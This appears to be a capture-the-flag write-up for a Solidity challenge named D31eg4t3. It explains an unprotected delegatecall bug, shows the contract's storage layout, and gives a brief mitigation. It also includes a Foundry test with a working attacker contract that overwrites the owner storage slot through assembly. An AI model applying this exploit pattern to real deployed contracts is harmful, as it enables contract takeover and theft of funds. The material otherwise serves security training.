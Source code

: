 ## D31eg4t3 attack

The D31eg4t3 contract is vulnerable to an **unprotected delegatecall** to any address.

As we can just call any contract logic we control with the storage layout from the D31eg4t3 contract we can use the attacker contract to update all the variables we want in the D31eg4t3 contract.

To get the storage layout we can use forge and find the storage slots we want to update.
```bash
forge inspect D31eg4t3 storage-layout --pretty

| Name         | Type                     | Slot | Offset | Bytes |
|--------------|--------------------------|------|--------|-------|
| a            | uint256                  | 0    | 0      | 32    |
| b            | uint8                    | 1    | 0      | 1     |
| d            | string                   | 2    | 0      | 32    |
| c            | uint32                   | 3    | 0      | 4     |
| mot          | string                   | 4    | 0      | 32    |
| owner        | address                  | 5    | 0      | 20    |
| canYouHackMe | mapping(address => bool) | 6    | 0      | 32    |
```

Another possibility is to deploy a contract with the exact same layout and just update the variables.

## Mitigation
Don't allow arbitrary / untrusted contracts to be called via delegatecall.

## Test
forge test --match-contract=D31eg4t3Test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";

contract D31eg4t3Test is Test {

    address owner = 0x0000000000000000000000000000000000000001;
    address attacker = 0x0000000000000000000000000000000000000003;

    D31eg4t3 public d31eg4t3;
    AttackD31eg4t3 public attackD31eg4t3;

    function setUp() public {
        vm.prank(owner);
        d31eg4t3 = new D31eg4t3();
        
        vm.prank(attacker);
        attackD31eg4t3 = new AttackD31eg4t3(address(d31eg4t3));
    }

    function testAttack() public {        
        
        // owner of D31eg4t3 is owner
        assertEq(owner, d31eg4t3.owner());
        
        // contract is not hacked yet by attacker
        assertFalse(d31eg4t3.canYouHackMe(attacker));

        // we now attack the D31eg4t3 to update the owner
        attackD31eg4t3.hackTheD31eg4t3();

        // owner of D31eg4t3 is now the attacker
        assertEq(attacker, d31eg4t3.owner());

        // contract is now hacked by attacker
        assertTrue(d31eg4t3.canYouHackMe(attacker));
    }
}

contract AttackD31eg4t3 {
    // copy storage layout from D31eg4t3
    uint a;
    uint8 b;
    string c;
    uint32 d;
    string e;
    address owner;
    mapping (address => bool) public canYouHackMe;
    // end

    address private immutable _ownerWithPower;
    D31eg4t3 private immutable d31eg4t3;
    constructor(address _d31eg4t3) {
        _ownerWithPower = msg.sender;
        d31eg4t3 = D31eg4t3(_d31eg4t3);
    }

    function hackTheD31eg4t3() external {
        d31eg4t3.hackMe("");
    }

    fallback() external {
        address overWriteOwner = _ownerWithPower;
        
        // we overwrite storage slot 5 via assembly !
        assembly {
            sstore(5, overWriteOwner)
        }

        // or just update the variable as we have the same storage layout
        canYouHackMe[_ownerWithPower] = true;
    }
}

contract D31eg4t3{

    uint a = 12345;
    uint8 b = 32;
    string private d; // Super Secret data.
    uint32 private c; // Super Secret data.
    string private mot; // Super Secret data.
    address public owner;
    mapping (address => bool) public canYouHackMe;

    modifier onlyOwner{
        require(false, "Not a Owner");
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function hackMe(bytes calldata bites) public returns(bool, bytes memory) {
        (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
        return (r, msge);
    }


    function hacked() public onlyOwner{
        canYouHackMe[msg.sender] = true;
    }
}
```